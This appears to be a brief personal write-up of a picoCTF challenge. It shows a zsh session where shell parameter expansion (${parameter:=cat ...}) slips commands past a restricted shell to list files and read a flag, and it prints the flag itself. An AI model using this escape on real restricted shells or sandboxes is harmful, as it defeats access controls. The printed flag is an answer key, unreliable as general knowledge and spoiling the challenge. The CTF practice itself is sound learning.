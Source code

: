 # Lesson
- Shell Parameter Expansion
    - https://www.gnu.org/software/bash/manual/bash.html#Shell-Parameter-Expansion-1  
    - https://qiita.com/a_yasui/items/ec4f75b300410af8958d  

# Memo
```zsh
Special$ ${parameter:=ls}
${parameter:=ls}
blargh
Special$ ${parameter:=ls} ./blargh
${parameter:=ls} ./blargh
flag.txt
Special$ ${parameter:=cat} ./blargh/flag.txt
${parameter:=cat} ./blargh/flag.txt
picoCTF{5p311ch3ck_15_7h3_w0r57_f906e25a}
```
This also works well
```zsh
Special$ ${parameter:=cat ./blargh/flag.txt}
${parameter:=cat ./blargh/flag.txt}
picoCTF{5p311ch3ck_15_7h3_w0r57_f906e25a}
```